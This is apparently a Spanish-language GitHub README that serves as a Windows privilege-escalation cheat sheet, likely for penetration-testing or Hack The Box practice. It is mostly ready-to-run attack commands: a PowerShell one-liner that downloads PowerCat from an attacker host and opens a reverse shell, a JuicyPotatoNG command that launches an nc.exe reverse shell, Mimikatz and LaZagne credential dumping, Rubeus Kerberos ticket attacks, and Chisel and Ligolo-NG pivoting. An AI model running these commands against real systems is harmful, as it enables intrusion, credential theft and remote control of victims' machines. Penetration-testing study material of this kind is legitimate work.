 
# WINDOWS PRIVILEGE ESCALATION

Programas para escalar privilegios en sistemas Windows.




## WinPEAS

Este programa es utilizado para escanear el sistema en busca de archivos interesantes, malas configuraciones e información del sistema.

#### COMANDOS

```
  ./WinPEAS.exe
```

## SharpHound

Extrae información del **Directorio Activo**, este programa generará un archivo.zip que subiremos posteriormente a BloodHound.

#### COMANDOS

```
  ./SharpHound.exe -c All
```

## [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/README.md) 🔗

Módulo que importa funciones que simplifican la ejecución de comandos dedicados a **Directorio Activo**.

#### COMANDOS

```
  . ./PowerView.ps1
```
#### USO BÁSICO

```
  Get-Domain
  Get-NetGroup
  Get-DomainUser
  Get-DomainSID
```

## [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/README.md) 🔗

Módulo que importa funciones para facilitar la enumeración del sistema, como listar los registros, encontrar posibles DLL Hijacking.

#### COMANDOS

```
  . ./PowerUp.ps1
```
#### USO BÁSICO

```
  Find-ProcessDLLHijack 
  Get-RegistryAlwaysInstallElevated 
  Get-ModifiableScheduledTaskFile
  Get-RegistryAutoLogon    
```

## [Rubeus](https://github.com/GhostPack/Rubeus/blob/master/README.md) 🔗

Programa utilizado para la explotación de **Kerberos** desde la máquina víctima, se podrá realizar una gran cantidad de ataques como AsreProast, Kerberoasting, Golden y Silver Ticket...

#### COMANDOS

```
  rubeus.exe asktgt /user:USER </password:PASSWORD /aes256:HASH> [/domain:DOMAIN] ...
```
#### USO BÁSICO

```
  rubeus.exe asktgt
  rubeus.exe asktgs
  rubeus.exe s4u
  rubeus.exe golden 
  rubeus.exe silver
  rubeus.exe diamond
  rubeus.exe dump
  rubeus.exe kerberoast 
  rubeus.exe asreproast
```

## [PowerCat](https://github.com/besimorhino/powercat/blob/master/README.md) 🔗

Con PowerCat puedes realizar una Reverse Shell. Primero debes encontrar la forma de ejecutar comandos, una vez conseguido abre un servidor en la ruta donde tengas el PowerCat:

#### COMANDOS
```
python3 -m http.server 80
```

Ahora ejecuta este comando en la máquina víctima, recuerda cambiar las IP y el puerto por los TUYOS.

```
  powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<IP-atacante>/powercat.ps1');powercat -c <IP-atacante> -p <PUERTO-atacante> -e powershell"
```

## [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/blob/main/README.md) 🔗

Este programa explota el privilegio **SeImpersonatePrivilege** se puede comprobar ejecutando el siguiente comando:

```
whoami /priv
```

<img src="https://infiniteloginscom.files.wordpress.com/2020/12/image-42.png" width="60%" height="60%">
<br>
Después subirás a la máquina víctima este archivo y nc.exe para realziar la Reverse Shell y obtener una Shell como Administrator, hay otros métodos de escalar, como por ejemplo crear un usuario y añadirlo al grupo Administrators.

#### COMANDOS
```
juicyPotatoNG.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\Public\nc.exe -e cmd <IP-atacante> <PUERTO-atacante>"
```


## [Mimikatz](https://github.com/ParrotSec/mimikatz/blob/master/README.md) 🔗

Con Mimikatz podrás extraer los hashes de los usuarios del sistema y del dominio. Ten en cuenta que deberás tener permisos elevados.

#### COMANDOS
```
./mimikatz.exe
```

#### USO BÁSICO 
```
mimikatz# privilege::debug
mimikatz# sekurlsa::logonpasswords
```

## [LaZagne](https://github.com/AlessandroZ/LaZagne/blob/master/README.md) 🔗

Es un programa similar a Mimikatz, podrás extraer contraseñas, hashes del sistema, dominio o de algunos navegadores. En mi opinión es más sencilla de usar que Mimikatz.

#### COMANDOS
```
./LaZagne.exe all     # Extrae TODO.
./LaZagne.exe all -i  # Abre la ayuda, todos los posibles comandos.
```

#### USO BÁSICO 
```
./LaZagne.exe browsers   # Extrae contraseñas de los navegadores
./LaZagne.exe Databases  # Extrae contraseñas de las BBDD
```

## [Certify](https://github.com/GhostPack/Certify/blob/main/README.md) 🔗

Certify.exe **extrae certificados** instalados en la máquina víctima, si logras obtener algún certificado con permisos elevados podrás obtener un TGT generado por Rubeus.exe

#### COMANDOS
```
./Certify.exe find /vulnerable
```

## [Chisel](https://github.com/jpillora/chisel/blob/master/README.md) 🔗

Seguramente ya conozcas este programa, sirve para realizar **Port Forwarding**, esto quiere decir que te podrás traer un puerto interno de la máquina víctima a tu propia máquina.

#### MÁQUINA ATACANTE
```
./chisel server --reverse -p 1234
```

#### MÁQUINA VÍCTIMA
```
./chisel.exe client <IP-ATACANTE>:1234 R:*<PUERTO-ATACANTE>:127.0.0.1:*<PUERTO-VÍCTIMA>
```

- ***PUERTO-ATACANTE**: Este puerto es el que se abrirá en tu Localhost para acceder a la máquina víctima.
- ***PUERTO-VÍCTIMA**: Este puerto es el que "robas" a la víctima, si internamente tiene abierto el 127.0.0.1:3306 y quieres acceder a el a través del 9999 el comando sería:

#### EJEMPLO
```
./chisel.exe client <IP-ATACANTE>:1234 R:9999:127.0.0.1:3306
```

## [Ligolo-NG](https://github.com/nicocha30/ligolo-ng/blob/master/README.md) 🔗

Esta herramienta es MUCHO mejor que Chisel, con ella puedes hacer **PortForwarding** a todos los puertos de una interfaz interna de la máquina víctima.

#### EJEMPLO
La dirección IP interna de la víctima es 172.16.198.10 y quieres tener conectividad directa con esta IP y el resto de la red.

#### MÁQUINA ATACANTE (Linux)
```
sudo ip tuntap add user <username-linux> mode tun ligolo
sudo ip link set ligolo up
ip route add 172.16.198.0/24 dev ligolo

./proxy -selfcert
```

<img src="https://raw.githubusercontent.com/DavidGrandeWeb/CyberTOOLS/main/Windows/IMG/Ligolo-interfaces.png" width="60%" height="60%"><br>

#### MÁQUINA VÍCTIMA (Windows)
```
./agent.exe -connect <IP-ATACANTE>:11601 -ignore-cert
```

<img src="https://raw.githubusercontent.com/DavidGrandeWeb/CyberTOOLS/main/Windows/IMG/Ligolo-victima.png" width="60%" height="60%"><br>

#### MÁQUINA ATACANTE (Linux)
```
ligolo-ng » INFO[0037] Agent joined.                                 name="HTB\\svc-alfresco@FOREST" remote="10.10.10.161:53939"
ligolo-ng » 
ligolo-ng » session  # TIENES QUE ESCRIBIR 'session'.
? Specify a session : 1 - HTB\svc-alfresco@FOREST - 10.10.10.161:53939  #  AQUÍ ESCRIBES '1'.
```

<img src="https://raw.githubusercontent.com/DavidGrandeWeb/CyberTOOLS/main/Windows/IMG/Ligolo-session.png" width="60%" height="60%"><br>

## 🔗 Links
[![portfolio](https://img.shields.io/badge/my_portfolio-000?style=for-the-badge&logo=ko-fi&logoColor=white)](https://davidgrandeweb.com/)
[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/david-grande-garc%C3%ADa-4586b1255/)

